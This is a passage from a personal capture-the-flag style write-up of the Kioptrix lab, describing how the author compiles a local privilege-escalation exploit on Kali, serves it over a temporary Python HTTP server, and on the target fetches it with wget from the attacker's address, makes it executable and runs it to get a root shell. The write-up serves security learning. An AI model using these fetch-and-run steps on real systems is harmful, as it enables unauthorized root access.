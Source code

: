 ```

This will save the exploit to your ```/home/kali/``` where you can then compile it via GCC compiling tool on Kali. You can do this by using the following command.

! Note - If you have troubles compiling the Exploit, use this to download the correct librarys on your Linux box ```$ sudo apt-get install gcc-multilib  ```
```$ gcc -m32 -Wl,--hash-style=both 9542.c -o 9542 ```

This will then compile it into a new file without the .c on the end, this means it's working and that it will work when placed on the other Kioptrix box.

Now have have to figure out how to get it onto the Kioptrix box.

On the Kali box, we want to run to open a temporary HTTP server, so we can transfer the files across to the Kioptrix server.
```$ python -m SimpleHTTPServer```

Now that we have a server set-up, we go back over to the Kioptrix terminal. First we need to get into a directory in which Apache can write and execute in, this can be achived by going to 
``` 
$ cd tmp
```
Once in TMP we can chuck in the following commands, which should get us access to root!
```
$ wget 10.0.2.15:8000/9542
$ chmod +x 9542
$ ./9542
sh: no job control in this shell
# whoami
root
```

We're in, we're all sorted and now we're onto the next :^) 

### Disclaimer
These notes are for my own learning process.
